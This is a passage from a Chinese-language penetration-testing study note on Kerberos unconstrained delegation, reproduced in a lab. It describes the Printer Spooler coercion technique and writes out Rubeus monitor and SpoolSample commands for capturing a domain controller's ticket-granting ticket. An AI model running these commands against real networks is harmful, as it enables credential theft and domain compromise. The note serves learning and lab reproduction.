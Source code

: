     ![image-20240625193315174](Kerberos/image-20240625193315174.png)

5. 一些注意点：

    1. 更改委派权限后需要一段时间才能生效，复现的时候可以考虑域控注销后再登录，比重启快。
    
    2. 自己做复现的时候，服务账号使用委派权限后并没有得到 krbtgt 的凭证。似乎其他师傅也有这种情况：
    
        > https://www.cnblogs.com/zpchcbd/p/12939246.html
    
    3. 本机管理员密码和域控管理员密码可能要不一致，否则本机管理员可能可以能直接访问到域控的电脑。
    
    4. 个人复现的时候，是导入了凭证的 shell 才有权限，其他的 shell 没有。

#### 5.1.4 非约束委派 + Printer Spooler

1. 参考网站：

    > https://adsecurity.org/?p=4056

2. 基本原理就是：
    首先 Windows Print System Remote Protocol 是 MS-RPRN 中的一个老旧，但是默认的协议。
    通过该协议可以让**域用户向域管**发送 MS-RPRN 的 RpcRemoteFindFirstPrinterChangeNotification 请求，**运行 Spooler 服务的**域管通过 Kerberos 返回通讯测试，也正好就达成了“诱导访问”的目的。
    复现中会使用工具：Rubeus，也是一个内网渗透工具。下载地址：

    > https://github.com/GhostPack/Rubeus

3. 先用 Rubeus 开启 TGT 监听：
    ```cmd
    # Rubeus.exe monitor /interval:1 /filteruser:域控$，注意需要高权限才能运行
    runas /profile /user:winserver12\administrator cmd.exe
    Rubeus.exe monitor /interval:1 /filteruser:Winserver08$ > result.txt
    ```

4. 启动 SpoolSample.exe，向域控发起请求：
    ```cmd
    # 麻了，我一运行这个 exe 就崩溃
    SpoolSample.exe Winserver08 Winserver12
    ```

    之后 Rubeus 会显示一大串 Base64。
